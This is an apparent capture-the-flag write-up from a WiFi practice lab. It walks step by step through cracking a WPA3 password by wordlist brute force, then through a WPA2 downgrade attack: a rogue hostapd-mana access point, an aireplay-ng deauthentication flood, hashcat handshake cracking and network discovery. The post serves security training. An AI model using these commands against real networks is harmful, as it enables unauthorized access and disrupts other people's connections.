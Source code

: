 ```yaml
---
title: Hacking WPA3 WiFi networks
author: eMVee
date: 2023-12-12 20:00:00 +0800
categories: [CTF, WiFiChallengeLAB]
tags: [WPA3, OSWP, WiFiChallengeLAB, WiFi]
render_with_liquid: false
---
```


With WPA2, hackers could still break into the WiFi network relatively easily and then read the network traffic. If both the access point (router, access point) and the device to be connected (the client; smartphone, laptop, etc.) support WPA3, you will benefit from the most optimal security. However, if you got a weak password....well we can still try to crack it and gain access to the network. If you still have a device such as a smartphone or laptop with WPA2 support, it is not the end of the world. These devices will still work on WPA3 networks for the time being, but without the additional security benefits. In this case we can downgrade and attack the network as well. In the following challenges on WiFiChallengeLAB we can practice both scenarios.

## What is the wifi-management password?
Let's scan the envronment on available WiFi networks. With the following command we can get a nice overview.
```bash
nmcli dev wifi list
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017092352.png){: width="700" height="400" }

We can see that the WiFi network `wifi-management` is running on channel 11 and using WPA3.
Next we should before we start kill all running processes.
```bash
sudo airmon-ng check kill
```
After killing the running processes we should start monitor mode on wlan0 interface.
```bash
sudo airmon-ng start wlan0
```
As soon as the monitor mode is set to the interface we can check other information such as clients connected to this network.
```bash
sudo airodump-ng wlan0mon --band abg -c 11
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017092716.png){: width="700" height="400" }

We did not discover anything useful yet. We might run a brute force attack with wacker. To run this we need to know the frequency of the network channel.
We can check this on [wikipedia](https://en.wikipedia.org/wiki/List_of_WLAN_channels).

![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231212210514.png){: width="700" height="400" }

For channel 11 we should use this argument `--freq 2462`. The command below is to bruteforce for a password.
```bash
./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017093222.png){: width="700" height="400" }

After a few minutes we gain the password for our target network.

## What is the wifi-IT password?
Let’s scan the envronment on available WiFi networks. With the following command we can get a nice overview.
```bash
nmcli dev wifi list
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017195629.png){: width="700" height="400" }

In this scenario `wifi-IT` is our target network and it is running on WPA2 and WPA3. This gives us the possibility to attack this network with WPA2.
We can also see that the network is running on channel 11. Next we should before we start kill all running processes.
```bash
sudo airmon-ng check kill
```
Then we need to enable monitor mode on our interface.
```bash
sudo airmon-ng start wlan0
```
We can check if the monitor mode is set with `iwconfig`.
```bash
iwconfig
```
Let's run airodump to see what we can discover more on our target network.
```bash
sudo airodump-ng wlan0mon --band abg -w wifi-IT -c 11
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017204658.png){: width="700" height="400" }

There is a workstation connected to our target network. Let's inspect some network traffic in Wireshark.
```bash
sudo wireshark wifi-IT-02.cap
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017204959.png){: width="700" height="400" }
When we inspect the package we can see thata deauthentication attack can be performed since the MFP (or PFM) is set to disable (0) 
Let's create a configuration file for our Rogue Access Point.
```bash
nano hostapd-sae.conf
```
The content of `hostapd-sae.conf` should look like this.
```
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-management.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
After saving the configuration file we can start our Rogue Access Point.
```bash
hostapd-mana hostapd-sae.conf
```
Next we should launch a deauthentication attack against our target entwork so the workstation will try to connect to our Rogue Access Point.
```bash
aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25  -c 10:F9:6F:AC:53:52
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017205956.png){: width="700" height="400" }

As soon as the workstation tries to connect to our Rogue Access Point we capture the handshake. Next we can crack the handshake with hashcat just like in the WPA2 networks.
```bash
hashcat -a 0 -m 2500 hostapd-management.hccapx ~/rockyou-top100000.txt --force
```
![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017210410.png){: width="700" height="400" }

Since we now have the password of the target network we can create the configuration file to connect to the target network.
```bash
wpa_passphrase wifi-IT CRACKED-PASSWORD > wifi-IT.conf
```
Let's connect to the target entwork with wpa_supplicant.
```bash
wpa_supplicant -D nl80211 -i wlan3 -c wifi-IT.conf
```
After connecting we should ask for an IP address to the DHCP server.
```bash
dhclient wlan3 -v
```
If an IP address has been assigned to us, we can identify hosts on the network with a simple arp-scan.  
```bash
arp-scan -l -I wlan3
```